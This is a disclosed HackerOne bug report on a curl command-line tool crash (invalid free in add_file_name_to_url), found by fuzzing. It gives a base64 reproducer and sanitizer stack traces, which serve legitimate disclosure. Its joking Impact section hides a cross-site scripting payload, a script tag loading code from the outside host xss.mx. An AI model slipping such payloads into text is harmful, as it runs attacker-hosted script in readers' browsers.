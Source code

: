 # Invalid write (or double free) triggers curl command line tool crash

## Report Details
- **Report ID**: 875775
- **URL**: https://hackerone.com/reports/875775
- **State**: Closed
- **Severity**: high
- **Submitted**: 2020-05-15T23:21:01.674Z
- **Disclosed**: 2020-05-18T06:23:01.976Z

## Reporter
- **Username**: geeknik
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: curl

## Vulnerability Information
## Summary:
Whilst fuzzing libcurl built from `git commit a158a09`, a crash triggered by an invalid write (or maybe a double/invalid  free) was found. 

## Steps To Reproduce:

Run:
`echo "LVQvCnVyIDA=" | base64 -d > test0000`
`./curl --verbose -q -K test0000 file:///dev/null`

Stack:

```
valgrind -q src/curl --verbose -q -K ~/curl/tmp/out/crashes/test0001 file:///dev/null
==12371== Invalid free() / delete / delete[] / realloc()
==12371==    at 0x48369AB: free (vg_replace_malloc.c:530)
==12371==    by 0x128C84: add_file_name_to_url (in /root/curl-no-asan/src/curl)
==12371==    by 0x1259EF: create_transfer (in /root/curl-no-asan/src/curl)
==12371==    by 0x1285DC: operate (in /root/curl-no-asan/src/curl)
==12371==    by 0x119828: main (in /root/curl-no-asan/src/curl)
==12371==  Address 0x192f1a is in a r-- mapped file /root/curl-no-asan/src/curl segment
==12371==
*   Trying 0.0.0.0:80...
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0* connect to 0.0.0.0 port 80 failed: Connection refused
* Failed to connect to 0 port 80: Connection refused
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
* Closing connection 0
curl: (7) Failed to connect to 0 port 80: Connection refused
* Closing connection 1
```

If we switch over to ASAN with AFL's libdislocator.so loaded:
```
LD_PRELOAD=/root/aflplusplus/libdislocator.so ../../../src/curl -q --verbose -K test0001 file:///dev/null
AddressSanitizer:DEADLYSIGNAL
=================================================================
==12389==ERROR: AddressSanitizer: SEGV on unknown address 0x00000074b590 (pc 0x0000004267f4 bp 0x000000000000 sp 0x7fffffffcdd0 T0)
==12389==The signal is caused by a WRITE memory access.
    #0 0x4267f4 in __asan::Allocator::Deallocate(void*, unsigned long, unsigned long, __sanitizer::BufferedStackTrace*, __asan::AllocType) (/root/curl/src/curl+0x4267f4)
    #1 0x49daa1 in free (/root/curl/src/curl+0x49daa1)
    #2 0x511d0d in add_file_name_to_url /root/curl/src/tool_operhlp.c:117:7
    #3 0x50281e in single_transfer /root/curl/src/tool_operate.c:1116:24
    #4 0x4fe95b in transfer_per_config /root/curl/src/tool_operate.c:2438:14
    #5 0x4fe95b in create_transfer /root/curl/src/tool_operate.c:2454:14
    #6 0x4f9de6 in serial_transfers /root/curl/src/tool_operate.c:2273:12
    #7 0x4f9de6 in run_all_transfers /root/curl/src/tool_operate.c:2479:16
    #8 0x4f99d3 in operate /root/curl/src/tool_operate.c:2594:18
    #9 0x4f8437 in main /root/curl/src/tool_main.c:323:14
    #10 0x7ffff762309a in __libc_start_main /build/glibc-vjB4T1/glibc-2.28/csu/../csu/libc-start.c:308:16
    #11 0x425559 in _start (/root/curl/src/curl+0x425559)

AddressSanitizer can not provide additional info.
SUMMARY: AddressSanitizer: SEGV (/root/curl/src/curl+0x4267f4) in __asan::Allocator::Deallocate(void*, unsigned long, unsigned long, __sanitizer::BufferedStackTrace*, __asan::AllocType)
==12389==ABORTING
*** [AFL] bad allocator canary on free() ***
Stack dump:
0.      Program arguments: /usr/bin/llvm-symbolizer-10 --inlining=true --default-arch=x86_64
/lib/x86_64-linux-gnu/libLLVM-10.so.1(_ZN4llvm3sys15PrintStackTraceERNS_11raw_ostreamE+0x1f)[0x7ffff4227a9f]
/lib/x86_64-linux-gnu/libLLVM-10.so.1(_ZN4llvm3sys17RunSignalHandlersEv+0x50)[0x7ffff4225d60]
/lib/x86_64-linux-gnu/libLLVM-10.so.1(+0xa50065)[0x7ffff4228065]
/lib/x86_64-linux-gnu/libpthread.so.0(+0x12730)[0x7ffff37c9730]
/lib/x86_64-linux-gnu/libc.so.6(gsignal+0x10b)[0x7ffff330a7bb]
/lib/x86_64-linux-gnu/libc.so.6(abort+0x121)[0x7ffff32f5535]
/root/aflplusplus/libdislocator.so(free+0x1e1)[0x7ffff7fc9bb1]
/lib/x86_64-linux-gnu/libLLVM-10.so.1(_ZN4llvm12PassRegistryD1Ev+0x1c)[0x7ffff435d1ec]
/lib/x86_64-linux-gnu/libLLVM-10.so.1(+0xb85c0e)[0x7ffff435dc0e]
/lib/x86_64-linux-gnu/libLLVM-10.so.1(_ZN4llvm13llvm_shutdownEv+0xa9)[0x7ffff41bf329]
/lib/x86_64-linux-gnu/libLLVM-10.so.1(_ZN4llvm8InitLLVMD1Ev+0x10)[0x7ffff419f7a0]
/usr/bin/llvm-symbolizer-10[0x406c70]
/lib/x86_64-linux-gnu/libc.so.6(__libc_start_main+0xeb)[0x7ffff32f709b]
/usr/bin/llvm-symbolizer-10[0x405eda]
```

## Impact

Denial of service, information disclosure, software crash, glitter everywhere"><script src=//xss.mx></script>, the Kool-Aid<x=" Man crashing through walls, dogs and cats living together, mass hysteria! Just kidding. It's probably limited only to the tool which means the impact is limited, I know the routine. (:

## Attachments
No attachments
